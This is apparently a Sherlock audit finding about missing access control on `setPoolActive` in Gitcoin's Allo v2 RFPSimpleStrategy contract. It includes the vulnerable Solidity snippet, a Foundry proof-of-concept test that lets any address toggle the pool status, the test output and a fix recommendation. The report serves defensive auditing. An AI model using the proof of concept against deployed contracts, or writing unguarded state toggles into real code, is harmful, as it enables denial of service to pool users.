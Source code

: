 Mammoth Aquamarine Wallaby

medium

# M-03 Potential DoS due to missing access control on `setPoolActive` in the RFPSimplestrategy contract.
The missing access control on the `setPoolActive` can cause DoS of contract.
## Impact
Anyone can set to Pool to be active or inactive at any time allowing for DoS or function calls which should not be allowed.
## Vulnerability Detail
Confirmed with sponsor, there should be access control on the function. The duration of the attack may be continuous as there may be malicious MEV Bots that would front-run calls and switch the contract active status based on function selectors. This would effectively render all major functions of the contract unusable, eg. `register`,`allocate`, `withdraw` and `distribute` as they require certain active states in the contract.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L216-L222

```solidity
/// @notice Toggle the status between active and inactive.
    /// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
    /// @param _flag The flag to set the pool to active or inactive
    function setPoolActive(bool _flag) external {
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```

## PoC
Copy/Paste this test function in the `RFPSimpleStrategy.t.sol` file in the `test/foundry/strategies/` directory:
```solidity
function test_setActivebyAnyone() public {
        RFPSimpleStrategy testStrategy = new RFPSimpleStrategy(address(allo()), "RFPSimpleStrategy");
        vm.startPrank(address(allo()));
        testStrategy.initialize(1337, abi.encode(maxBid, useRegistryAnchor, metadataRequired));
        console.log("[+] testStrategy is initialized");
        console.log("[+] Current active status of testStrategy : ", testStrategy.isPoolActive());
        vm.stopPrank();
        vm.startPrank(address(9999999999999999999999));
        console.log("[+] Call the setPoolActive to false with: ");
        console.log("    vm.startPrank of random addess address(9999999999999999999999)");
        testStrategy.setPoolActive(false);
        vm.stopPrank();
        console.log("[+] Current active status of testStrategy : ", testStrategy.isPoolActive());

    }
```
## Output
```text
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_setActivebyAnyone() (gas: 2535904)
Logs:
  [+] testStrategy is initialized
  [+] Current active status of testStrategy :  true
  [+] Call the setPoolActive to false with: 
      vm.startPrank of random addess address(9999999999999999999999)
  [+] Current active status of testStrategy :  false

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.21ms
```
Run forge test 
```text
forge test --match-contract RFPSimpleStrategyTest --match-test test_setActivebyAnyone -vv
```
## Tool used

Manual Review

## Recommendation
Add modifier to limit which callers can call the function and at which stages.